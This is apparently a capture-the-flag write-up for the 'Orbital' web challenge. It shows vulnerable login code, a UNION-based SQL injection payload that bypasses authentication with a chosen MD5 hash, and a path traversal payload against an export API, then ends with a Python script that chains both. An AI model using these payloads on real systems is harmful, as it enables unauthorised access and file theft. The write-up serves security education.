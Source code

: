 ## Orbital :: Easy
#### Scenario 

```
 Orbital
 In order to decipher the alien communication that held the key to their location, she needed access to a decoder with advanced capabilities - a decoder that only The Orbital firm possessed. Can you get your hands on the decoder?
```

#### Solve
##### Auth bypass

![](/images/orbital-source-tree.png)

This challenge builds on the basics of SQL Injection explored in the `Drobots` challenge.
It is another case of login bypass, with a much more interesting payload.

The login logic for the application is the following:

```python
def login(username, password):
    # I don't think it's not possible to bypass login because I'm verifying the password later.
    user = query(f'SELECT username, password FROM users WHERE username = "{username}"', one=True)

    if user:
        passwordCheck = passwordVerify(user['password'], password)

        if passwordCheck:
            token = createJWT(user['username'])
            return token
    else:
        return False
```

In a query like this, you could use UNION to include a hand crafted row.
This way you can provide a username and the hashed password of your choice.

The application will internally use these values when comparing the provided password with the hashed one, provided in the injection.

```python
user = query(f'SELECT username, password FROM users WHERE username = "{username}"', one=True)
```

We can see that the application uses the `md5` algorithm to hash the passwords before storage.
This is in the `util.py:passwordVerify` function.
```python
def passwordVerify(hashPassword, password):
    md5Hash = hashlib.md5(password.encode())

    if md5Hash.hexdigest() == hashPassword: return True
    else: return False
```

This means that we have to provide the password hashed with `md5` in our payload.

Payload:
```
owned" UNION SELECT "admin","21232f297a57a5a743894a0e4a801fc3" FROM users;#
```

`admin`: is the target user
`21232f297a57a5a743894a0e4a801fc3`: is the md5 hash of "admin"

When logging in we provide the injection in the username input and the password 'admin' in the password input.

Here is the resulting query executing on the database:

```sql
SELECT username, password FROM users WHERE username = "owned" UNION SELECT "admin", "21232f297a57a5a743894a0e4a801fc3" FROM users;#"
```

When executing, the database will not return results for the `owned` username, which means it will use our specified row.

![](/images/orbital_login.png)

We are then logged into a dashboard:

![](/images/orbital_dashboard.png)

##### LFI in export function

In this dashboard, there is an export function for various communications.

![](/images/orbital_export.png)

The application has an export api that relatively includes an mp3 file.
This file is then downloaded.

By using path traversal, we can traverse the filesystem back to the root directory to include our target `signal_sleuth_firmware`.

![](/images/orbital_export_request.png)

With the following payload:
```json
{
    "name":"../../../../../../../../../../../signal_sleuth_firmware"
}
```

Once we obtain this file, it contains the flag !

#### Script
```python
#!/usr/bin/env python3
import requests

TARGET = "http://10.18.232.1:1337"
LOGIN_ENDPOINT = "/api/login"
EXPORT_ENDPOINT = "/api/export"
PAYLOAD = "owned\" UNION SELECT \"admin\",\"21232f297a57a5a743894a0e4a801fc3\" FROM users;#"
FLAG_LFI_PAYLOAD = {"name": "../../../../../../../../../../../signal_sleuth_firmware"}

if __name__ == "__main__":
    print("[*] BYPASSING LOGIN")
    s = requests.Session()
    s.post(TARGET + LOGIN_ENDPOINT,
                  json={"username": PAYLOAD, "password": "admin"})

    print("[*] Using Path Traversal + LFI to include flag")
    flag = s.post(TARGET + EXPORT_ENDPOINT, json=FLAG_LFI_PAYLOAD)
    print(flag.text)
```

This script will chain the exploits and print the flag.


